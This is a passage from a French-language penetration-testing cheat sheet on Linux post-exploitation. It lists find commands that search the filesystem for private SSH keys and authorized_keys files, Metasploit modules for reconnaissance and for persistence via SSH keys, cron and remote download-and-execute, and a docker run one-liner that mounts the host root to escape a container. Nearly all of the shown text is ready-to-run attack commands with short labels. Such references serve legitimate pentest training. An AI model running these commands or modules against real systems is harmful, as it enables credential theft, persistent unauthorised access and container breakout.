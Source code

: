 ### Clés SSH
| Commande | Description |
|----------|-------------|
| `find / -name "*.key" 2>/dev/null` | Clés privées |
| `find / -name "*_rsa" 2>/dev/null` | Clés RSA |
| `find / -name "*_dsa" 2>/dev/null` | Clés DSA |
| `find / -name "authorized_keys" 2>/dev/null` | Clés autorisées |

---

## 🚀 11. Post-exploitation avec Metasploit

### Modules de reconnaissance
| Module | Description |
|--------|-------------|
| `post/linux/gather/enum_configs` | Énumération des configurations |
| `post/linux/gather/enum_network` | Énumération réseau |
| `post/linux/gather/enum_system` | Énumération système |
| `post/linux/gather/checkvm` | Détection de virtualisation |
| `post/multi/recon/local_exploit_suggester` | Suggestion d'exploits |

### Modules de persistence
| Module | Description |
|--------|-------------|
| `post/linux/manage/sshkey_persistence` | Persistence via clé SSH |
| `post/linux/manage/download_exec` | Téléchargement et exécution |
| `exploit/linux/local/cron_persistence` | Persistence via cron |

---

## 🔧 12. Techniques avancées

### Docker Escape
| Commande | Description |
|----------|-------------|
| `ls -la /var/run/docker.sock` | Socket Docker accessible |
| `docker ps` | Conteneurs en cours |
| `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` | Montage du système hôte |

